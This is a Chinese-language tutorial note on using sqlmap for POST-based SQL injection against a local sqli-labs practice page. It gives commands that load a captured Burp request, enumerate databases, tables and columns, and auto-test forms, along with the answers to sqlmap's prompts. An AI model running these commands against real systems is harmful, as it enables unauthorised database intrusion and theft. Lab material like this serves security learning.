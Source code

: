 ```yaml
---
title: 6.2SQL注入之sqlmap使用(post注入)
url: https://www.yuque.com/u29002979/ep2zrx/a097cc2629360a5ad4a0a414661557e8
---
```


<h1>SQL注入之sqlmap使用(post注入)</h1>
<p>POST型：与数据库交互是通过post数据进行，URL不可见</p>
<h3>利用sqlmap进行POST注入，常见的有三种方法:</h3>
<h2>注入方式一：</h2>
<p><strong>1.用Burp抓包，然后保存抓取到的内容。例如：保存为1.txt,然后把它放至某个目录下</strong></p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/4acf54c747204860a73fe74a42a8c8c2.png" alt="image.png" class="align-none" /></p>
<p><strong>2.列数据库:</strong></p>
<p>sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname --dbs</p>
<p>也可以使用  *  指定需要测试的参数</p>
<p><strong>it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]</strong><br />
它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n]  输入"Y"</p>
<p><strong>for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]</strong><br />
对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？ [Y/n] 输入"N"</p>
<p><strong>POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]</strong><br />
POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N]  输入"Y"</p>
<h3>3.猜表</h3>
<p>选择一个数据库，比如选test</p>
<p>sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname -D test --tables</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/583ad73419114e1ea19656c1102841d1.png" alt="image.png" class="align-none" /></p>
<p><strong>4.猜列</strong></p>
<p>sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname -D test  -T t1 --columns</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/f96cf3e6a13d4e90a7e3a051bf3fe64f.png" alt="image.png" class="align-none" /></p>
<h2>注入方式二：自动搜索表单的方式</h2>
<p>sqlmap.py  -u "<a href="http://localhost/sqli-labs-master/Less-11/index.php" target="_blank">http://localhost/sqli-labs-master/Less-11/index.php</a>" --forms</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/d1b1a089b2824e80a36551e501cfbe64.png" alt="image.png" class="align-none" /></p>
<p>do you want to test this form? [Y/n/q]<br />
要测试此表单吗?[Y/n/q]  输入"Y"</p>
<p>do you want to fill blank fields with random values? [Y/n]<br />
是否要填充带有随机值的空白字段? [Y/n]  输入"Y"</p>
<p>it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]<br />
它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 输入"Y"</p>
<p>for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]<br />
对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？[Y/n]  输入"N"</p>
<p>POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]<br />
POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N]  输入"N"</p>
<p>do you want to exploit this SQL injection? [Y/n]<br />
你想利用SQL注入？ 输入"Y"</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1651663711000/490d416ed490474db5c6b8d6adcca84e.png" alt="image.png" class="align-none" /></p>
<p>常用命令：</p>
<pre><code>-r表示加载一个文件，-p指定参数
--current-db 当前数据库
--forms 自动检测表单
-data   
</code></pre>
